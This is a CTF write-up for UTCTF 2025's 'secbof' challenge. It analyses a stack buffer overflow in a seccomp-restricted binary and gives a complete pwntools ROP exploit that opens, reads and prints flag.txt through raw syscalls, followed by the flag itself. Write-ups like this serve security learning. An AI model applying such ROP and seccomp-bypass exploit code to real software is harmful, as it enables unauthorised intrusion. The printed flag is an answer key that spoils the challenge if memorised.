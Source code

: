 # UTCTF 2025 - secbof Writeup
**Date:** March 17, 2025
**Author:** s1gn3rs

## Challenge Information

- **Category:** Binary Exploitation
- **Challenge Name:** secbof
- **Description:** A buffer overflow, but secure. Flag can be accessed at `./flag.txt`
- **Author:** Anthony (@stuckin414141 on Discord)
- **Connection:** `nc challenge.utctf.live 5141`

### Binary Security Features

```
Permissions:
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

### Key Observations

- **No PIE:** ASLR is off, so we can use fixed addresses in our ROP chain.
- **Stack Canary:** We need to ensure we do not overwrite it incorrectly.
- **NX Enabled:** We cannot execute shellcode on the stack.
- **SHSTK & IBT Enabled:** These are mitigations for control-flow integrity, but we can bypass them with ROP.

---

## Binary Analysis

### Main Function (Decompiled via Ghidra)

```c
undefined8 main(void){
  undefined1 local_88[128];

  setvbuf((FILE *)stdout, (char *)0x0, 2, 0);
  setvbuf((FILE *)stdin, (char *)0x0, 2, 0);
  install_filter();
  printf("Input> ");
  read(0, local_88, 1000);
  printf("Flag: ");
  return 0;
}
```

### Important Findings
1. **`install_filter()` is applied**, meaning a seccomp filter is enforced.
2. **Buffer overflow vulnerability:** We can overwrite the saved RIP since `read()` allows 1000 bytes.
3. **Potential for ROP attacks:** Since the binary has many unused functions, we have a good number of gadgets.

### Seccomp Filter Analysis

```bash
seccomp-tools dump ./chal
```

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x06 0x00 0x00 0x00000000  return KILL
```

- **Allowed syscalls:** `read`, `write`, `open`, and `exit`.
- We can still read the flag using a **ROP Chain** to call these syscalls correctly.

---

## Exploiting the Buffer Overflow

### Finding the Offset to RIP

Using GDB, we determine that the offset to the saved RIP is **0x88 bytes**. Although a stack canary is present in the binary, we found that **there is no canary** between the buffer and the saved RIP, allowing us to overwrite it directly

```bash
pwndbg> # p/x savedRip - bufferAddress
pwndbg> p/x 0x7fffffffdb38 - 0x7fffffffdab0
$1 = 0x88
```

### ROP Strategy

1. **Bypass seccomp restrictions** using `open`, `read`, and `write` syscalls.
2. **We cannot use `open`** because it calls `openat`. Instead, we invoke the syscall manually.
3. **Open the flag file** `./flag.txt`.
4. **Read the flag** into a writable memory section.
5. **Write the flag** to stdout.
6. **Return to instruction `main+77`** to flush stdout.

---

## Exploit Code

```python
#!/usr/bin/env python3

from pwn import *

e = ELF("chal")

context.binary = e

def conn(cond):
    if cond == 1:
        r = process([e.path])
    elif cond == 2:
        r = gdb.debug([e.path], gdbscript="""
            b *main+114
            b *main+145
            b *0x44f980
            c
            c
            """)
    elif cond == 3:
        r = remote("challenge.utctf.live", 5141)
        #r = remote("localhost", 9000)

    return r


def main():
    r = conn(1)

    offsetRip = 0x88

    rop = ROP(e)               # Create a ROP object

    # Locate addresses
    open = e.sym['open64']
    read = e.sym['read']
    write = e.sym['write']

    # Writable memory location (for buffer)
    bss_section = e.bss() + 0x100

    # Pop gadgets (found earlier)
    pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
    pop_rsi = rop.find_gadget(['pop rsi', 'ret'])[0]
    pop_rax = rop.find_gadget(['pop rax', 'ret'])[0]
    # 0x0000000000433a83 : mov qword ptr [rdi], rdx ; ret
    mov_qword_rdi_rdx = 0x0000000000433a83
    syscallRet = 0x000000000041ae16
    #0x000000000048630b : pop rdx ; pop rbx ; ret
    pop_rdx_rbx = 0x000000000048630b

    print(f"pop_rdi: {hex(pop_rdi)}")
    print(f"pop_rsi: {hex(pop_rsi)}")
    print(f"pop_rdx_rbx: {hex(pop_rdx_rbx)}")

    # ROP chain

    rop.raw(pop_rdi)  # File name
    rop.raw(p64(bss_section))
    rop.raw(pop_rdx_rbx)
    rop.raw(b"./flag.t")  # rdx = "./flag.t"
    rop.raw(p64(0))  # Dummy rbx
    rop.raw(p64(mov_qword_rdi_rdx))  # mov [rdi], rdx

    rop.raw(p64(pop_rdi))  # Set destination (bss_section + 8)
    rop.raw(p64(bss_section + 8))
    rop.raw(p64(pop_rdx_rbx))  # Set value ("xt\x00")
    rop.raw(b"xt\x00\x00\x00\x00\x00\x00")  # rdx = "xt\x00"
    rop.raw(p64(0))  # Dummy rbx
    rop.raw(p64(mov_qword_rdi_rdx))  # mov [rdi], rdx




    # 1 Open("flag.txt", O_RDONLY)
    rop.raw(pop_rdi)  # File name
    rop.raw(p64(bss_section))
    rop.raw(pop_rsi)  # O_RDONLY = 0
    rop.raw(p64(0))

    rop.raw(pop_rax)
    rop.raw(p64(2))
    rop.raw(syscallRet)

    # 2 Read(fd, buffer, 64)
    rop.raw(pop_rdi)  # File descriptor (assuming open() returns 3)
    rop.raw(p64(3))   # This is hardcoded be carefull!!!! I was too lazy to get another gadget
    # Maybe you will need to change it's value (fd=5 to docker or server)
    rop.raw(pop_rsi)  # Buffer to store flag
    rop.raw(p64(bss_section))
    rop.raw(pop_rdx_rbx)  # Read 64 bytes
    rop.raw(p64(64))
    rop.raw(p64(0))
    rop.raw(read)  # Call read()

    # 3 Write(1, buffer, 64)
    rop.raw(pop_rdi)  # STDOUT file descriptor
    rop.raw(p64(1))
    rop.raw(pop_rsi)  # Buffer containing flag
    rop.raw(p64(bss_section))
    rop.raw(write)  # Call write()
    rop.raw(e.sym['main'] + 77)  # Return to main



    # print(rop.dump())

    # Send payload
    r.sendline(fit({offsetRip: rop.chain()}))  # Overflow + ROP chain

    r.interactive()

if __name__ == "__main__":
    main()
```

---

## Flag

```
utflag{r0p_with_4_littl3_catch}
```

